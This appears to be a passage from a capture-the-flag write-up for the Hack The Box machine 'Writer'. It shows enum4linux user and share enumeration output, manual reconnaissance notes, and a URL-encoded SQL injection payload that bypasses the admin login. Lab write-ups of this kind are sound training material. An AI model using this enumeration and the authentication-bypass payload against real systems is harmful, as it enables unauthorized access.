 ```bash
enum4linux -a 10.10.11.101
# index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: kyle Name: Kyle Travis   Desc:
# user:[kyle] rid:[0x3e8]
# S-1-5-21-1663171886-1921258872-720408159-501 WRITER\nobody (Local User)
# S-1-5-21-1663171886-1921258872-720408159-513 WRITER\None (Domain Group)
# S-1-5-21-1663171886-1921258872-720408159-1000 WRITER\kyle (Local User)
# S-1-22-1-1000 Unix User\kyle (Local User)
# S-1-22-1-1001 Unix User\john (Local User)
# S-1-5-32-544 BUILTIN\Administrators (Local Group)
# S-1-5-32-545 BUILTIN\Users (Local Group)
# S-1-5-32-546 BUILTIN\Guests (Local Group)
# S-1-5-32-547 BUILTIN\Power Users (Local Group)
# S-1-5-32-548 BUILTIN\Account Operators (Local Group)
# S-1-5-32-549 BUILTIN\Server Operators (Local Group)
# S-1-5-32-550 BUILTIN\Print Operators (Local Group)
```

We get a list of shares and local users:

```
kyle
john
nobody
```

### Manual inspection

There are a few more informations to gather from the page source & content:

- the fontend uses Boostrap
- the server side has elements from WooCommerce?
- creation date: around `2021-05-17 21:57:04`
- the directories under `http://10.10.11.101/static/` can be browsed

The contact form doesn't trigger any request.

The authors of the blog posts may have accounts:

```
Yolanda Wu
Nina Chyll
Catherine Hill
Evelyn Kill
Christina Marie
R.A
Shawn Forno
```

## Login on the

Testing the `administrative` page by hand, the standard SQLi works:

```
uname=admin%27+OR+1%3D%271&password=PASS
```


[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png